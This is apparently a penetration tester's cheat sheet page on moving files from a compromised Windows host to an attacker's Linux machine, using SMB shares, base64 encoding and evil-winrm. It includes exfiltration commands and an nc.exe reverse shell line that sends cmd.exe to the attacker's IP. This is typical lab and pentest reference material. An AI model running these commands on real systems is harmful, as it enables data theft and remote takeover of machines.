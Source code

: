 ```yaml
---
title: "File Transfer (Windows To Linux)"
date: 2024-6-26
tags: ["file transfer", "Windows", "smb", "evil-winrm"]
---
```


{{< tab set1 tab1 active >}}SMB{{< /tab >}}
{{< tab set1 tab2 >}}Base64{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local SMB Server

```console
impacket-smbserver share . -smb2support
```

#### cmd

```console
# Connect to SMB server without creds
net use \\<LOCAL_IP>\share
```

```console
# Connect to SMB server with creds
net use \\<LOCAL_IP>\share /u:<USER> '<PASSWORD>'
```

```console
# From target Windows to local Linux
copy <FILE> \\<LOCAL_IP>\share
```

```console
# From local Linux to target Windows
copy \\<LOCAL_IP>\share\<FILE> <FILE>
```

```console
# Delete file
del <FILE>
```

```console
# Remove SMB share
net use /d \\<LOCAL_IP>\share
```

```console
# Older Windows (e.g. xp), use directly
\\<LOCAL_IP>\share\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Small binary

```console
# In target Windows
[System.convert]::ToBase64String((Get-Content -Path 'C:\ProgramData\<FILE>' -Encoding Byte))
```

```console
# Copy and paste the base64 encoded binary to local Linux
echo -n '<BASE64_BINARY>' | base64 -d > <FILE>
```

<small>*Note: For restricted environment*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Evil-winrm built-in function
download 'C:\ProgramData\<FILE>' '<LOCAL_DEST_PATH>'
```

{{< /tabcontent >}}
